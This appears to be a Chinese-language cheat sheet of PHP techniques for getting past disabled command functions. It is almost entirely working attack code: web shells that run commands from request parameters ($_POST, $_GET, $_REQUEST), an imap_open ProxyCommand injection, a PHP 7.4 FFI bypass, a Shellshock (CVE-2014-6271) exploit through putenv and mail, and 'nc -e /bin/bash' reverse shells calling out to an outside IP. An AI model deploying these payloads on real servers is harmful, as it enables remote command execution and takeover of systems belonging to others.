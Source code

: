 #### 常规函数绕过
```php
<?php
echo exec('whoami');?>
------------------------------------------------------
<?php
echo shell_exec('whoami');?>
------------------------------------------------------
<?php
system('whoami');?>
------------------------------------------------------
<?php
passthru("whoami");?>
------------------------------------------------------
<?php
$command=$_POST['cmd'];
$handle = popen($command , "r");
while(!feof($handle))
{        echo fread($handle, 1024);  //fread($handle, 1024);
}
pclose($handle);?>
-------------------------------------------------------
<?php
$command="ipconfig";
$descriptorspec = array(1 => array("pipe", "w"));
$handle = proc_open($command ,$descriptorspec , $pipes);
while(!feof($pipes[1]))
{        echo fread($pipes[1], 1024); //fgets($pipes[1],1024);
}?>
```
#### pcntl_exec
	开启了pcntl 扩展，并且php 4>=4.2.0 , php5，linux
```php
<?php
if(function_exists('pcntl_exec')) {
pcntl_exec("/bin/bash", array("/tmp/test.sh"));
} else {
echo 'pcntl extension is not support!';
}
?>
```
	test.sh
	#!/bin/bash
	nc -e /bin/bash 1.1.1.1 8888       #反弹shell
#### imap_open函数
```php
<?php
error_reporting(0);
if (!function_exists('imap_open')) {
die("no imap_open function!");
}
$server = "x -oProxyCommand=echo\t" . base64_encode($_GET['cmd'] . ">/tmp/cmd_result") . "|base64\t-d|sh}";
imap_open('{' . $server . ':143/imap}INBOX', '', '');
sleep(5);
echo file_get_contents("/tmp/cmd_result");
?>
```
#### php7.4 FFI绕过
	php 7.4
	ffi.enable=true
```php
<?php
$a='nc -e /bin/bash ip 8888';
$ffi = FFI::cdef(
    "int system(char *command);",
    "libc.so.6");
$ffi->system($a);
?>
```
  ### shellshock
	存在CVE-2014-6271漏洞
	PHP 5.*，linux，putenv()、mail()可用
```php
<?php
function shellshock($cmd) {
$tmp = tempnam(".","data");
putenv("PHP_LOL=() { x; }; $cmd >$tmp 2>&1");
mail("a@127.0.0.1","","","","-bv");
$output = @file_get_contents($tmp);
@unlink($tmp);
if($output != "") return $output;
else return "No output, or not vuln.";
}
echo shellshock($_REQUEST["cmd"]);
?>
```